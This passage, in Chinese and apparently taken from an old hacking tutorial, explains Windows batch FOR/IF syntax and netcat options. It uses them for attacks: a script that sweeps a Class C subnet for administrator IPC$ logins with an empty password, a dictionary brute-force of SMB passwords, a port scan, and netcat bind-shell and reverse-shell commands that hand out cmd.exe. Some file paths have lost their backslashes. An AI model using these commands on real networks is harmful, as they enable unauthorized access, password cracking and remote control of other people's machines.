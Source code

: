 　　telnet IP telnet连接对方主机（同win2K），当出现bash$时就说明连接成功。
　　ftp ftp连接上某服务器（同win2K）
　　批处理命令与变量
　　1：for命令及变量 基本格式
　　FOR /参数 %variable IN (set) DO command [command_parameters] %variable:指定一个单一字母可替换的参数，如：%i ，而指定一个变量则用：%%i ，而调用变量时用：%i% ，变量是区分大小写的（%i 不等于 %I）。
　　批处理每次能处理的变量从%0—%9共10个，其中%0默认给批处理文件名使用，%1默认为使用此批处理时输入的的第一个值，同理：%2—%9指输入的第2-9个值；例：net use ipipc$ pass /user:user 中ip为%1,pass为%2 ,user为%3
　　(set):指定一个或一组文件，可使用通配符，如：(D:user.txt)和(1 1 254)(1 -1 254),{ “(1 1 254)”第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从1到254；“(1 -1 254)”说明：即从254到1 }
　　command：指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：& 来隔开
　　command_parameters：为特定命令指定参数或命令行开关
　　IN (set)：指在(set)中取值；DO command ：指执行command
　　参数：/L 指用增量形式{ (set)为增量形式时 }；/F 指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:pass.txt)时 }。
　　用法举例：
　　@echo off
　　echo 用法格式：test.bat *.*.* > test.txt
　　for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \%1.%%G /user:administrator | find "命令成功完成" >>test.txt
　　存为test.bat 说明：对指定的一个C类网段的254个IP依次试建立administrator密码为空的IPC$连接，如果成功就把该IP存在test.txt中。
　　/L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；& 用来隔开echo 和net use 这二个命令；| 指建立了ipc$后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。
　　@echo off
　　echo 用法格式：ok.bat ip
　　FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200
　　存为：ok.exe 说明：输入一个IP后，用字典文件d:pass.dic来暴解d:user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入的IP地址（默认）。
　　七：
　　2：if命令及变量 基本格式
　　IF [not] errorlevel 数字 命令语句 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为“真”。
　　例：IF errorlevel 0 命令 指程序执行后返回的值为0时，就值行后面的命令；IF not errorlevel 1 命令指程序执行最后返回的值不等于1，就执行后面的命令。
　　0 指发现并成功执行（真）；1 指没有发现、没执行（假）。
　　IF [not] 字符串1==字符串2 命令语句 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。
　　例：“if "%2%"=="4" goto start”指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就%变量名%并加" "）
　　IF [not] exist 文件名 命令语句 如果指定的文件名存在，就执行后面的命令。
　　例：“if not nc.exe goto end”指：如果没有发现nc.exe文件就跳到":end"标签处。
　　IF [not] errorlevel 数字 命令语句 else 命令语句或 IF [not] 字符串1==字符串2 命令语句 else 命令语句或 IF [not] exist 文件名 命令语句 else 命令语句 加上：else 命令语句后指：当前面的条件不成立时，就指行else后面的命令。注意：else 必须与 if 在同一行才有效。 当有del命令时需把del命令全部内容用< >括起来，因为del命令要单独一行时才能执行，用上< >后就等于是单独一行了；例如：“if exist test.txt. <del test.txt.> else echo test.txt.missing ”，注意命令中的“.”
　　系统外部命令
　　注：系统外部命令(均需下载相关工具)
　　瑞士军刀：nc.exe
　　参数说明：
　　-h 查看帮助信息
　　-d 后台模式
　　-e prog程序重定向，一但连接就执行[危险]
　　-i secs延时的间隔
　　-l 监听模式，用于入站连接
　　-L 监听模式，连接天闭后仍然继续监听，直到CTR+C
　　-n IP地址，不能用域名
　　-o film记录16进制的传输
　　-p[空格]端口 本地端口号
　　-r 随机本地及远程端口
　　-t 使用Telnet交互方式
　　-u UDP模式
　　-v 详细输出，用-vv将更详细
　　-w数字 timeout延时间隔
　　-z 将输入，输出关掉（用于扫锚时）
　　基本用法：
　　nc -nvv 192.168.0.1 80 连接到192.168.0.1主机的80端口
　　nc -l -p 80 开启本机的TCP 80端口并监听
　　nc -nvv -w2 -z 192.168.0.1 80-1024 扫锚192.168.0.1的80-1024端口
　　nc -l -p 5354 -t -e c:winntsystem32cmd.exe 绑定remote主机的cmdshell在remote的TCP 5354端口
　　nc -t -e c:winntsystem32cmd.exe 192.168.0.2 5354 梆定remote主机的cmdshell并反向连接192.168.0.2的5354端口